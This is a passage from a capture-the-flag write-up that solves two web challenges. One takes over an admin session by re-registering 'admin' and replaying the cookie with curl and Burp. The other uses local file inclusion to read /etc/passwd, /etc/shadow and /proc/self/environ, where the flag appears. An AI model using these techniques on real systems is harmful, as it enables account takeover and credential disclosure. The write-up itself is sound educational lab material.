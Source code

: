 Did the same with admin and voila
```
──(user㉿violett)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"username": "admin","password": "password"}' 127.0.0.1:80/rego
"admin"                                                                                                                                                                                                                                                                       
┌──(user㉿violett)-[~]
└─$ curl -X POST -H "Content-Type: application/json" -d '{"username": "admin","password": "password"}' 127.0.0.1:80/login
{
    "cookie": "NA3kOxFS095PEaMdQa97fuHlMGU_KY4GNk1NdUHbWxpRMxSxCSJiwlvS5jv2dmPHB2rXkCcgl7eaOIG4sFWpDmFkbWlu"
} 
```
So when I logged in as admin, my cookie was
NA3kOxFS095PEaMdQa97fuHlMGU_KY4GNk1NdUHbWxpRMxSxCSJiwlvS5jv2dmPHB2rXkCcgl7eaOIG4sFWpDmFkbWlu

I then used burp suite repeater to add the cookie to a GET request for /secret and bingo, the flag.

:+1: FLAG{th3_publ1c_k3y_was_the_priv4te_key}
<hr>

### PythonFlaskDefender
Description - I wrote my own blog framework! I just learned python flask recently, it's super easy to get started.

But apparently some kiddies thought it would be funny to hack my website and leak my files...

So I've had to implement some self-defense measures. Take that, skids!

URL port: 5000

Flag format: FLAG{you_have_found_the_flag}

Solution:
Heading to the URL, and testing for LFI, you can check for things such as /etc/passwd and /etc/shadow

I happened to try /proc/self/environ and got this
```
/proc/self/environ
HOSTNAME=ip-172-31-24-42.ap-southeast-2.compute.internalFLASK_RUN_APP=appPYTHON_PIP_VERSION=22.0.4SHLVL=2HOME=/rootGPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568AWS_EXECUTION_ENV=AWS_ECS_FARGATEECS_AGENT_URI=http://169.254.170.2/api/d26781c5276b4b8ebceaa40e94539429-792494206AWS_DEFAULT_REGION=ap-southeast-2PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/5eaac1050023df1f5c98b173b248c260023f2278/public/get-pip.pyECS_CONTAINER_METADATA_URI_V4=http://169.254.170.2/v4/d26781c5276b4b8ebceaa40e94539429-792494206ECS_CONTAINER_METADATA_URI=http://169.254.170.2/v3/d26781c5276b4b8ebceaa40e94539429-792494206FLASK_RUN_HOST=0.0.0.0PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binLANG=C.UTF-8PYTHON_VERSION=3.9.14PYTHON_SETUPTOOLS_VERSION=58.1.0AWS_REGION=ap-southeast-2PWD=/PYTHON_GET_PIP_SHA256=5aefe6ade911d997af080b315ebcb7f882212d070465df544e1175ac2be519b4FLAG=FLAG{some_files_are_not_files}
```
Low and behold, the flag was sitting at the end
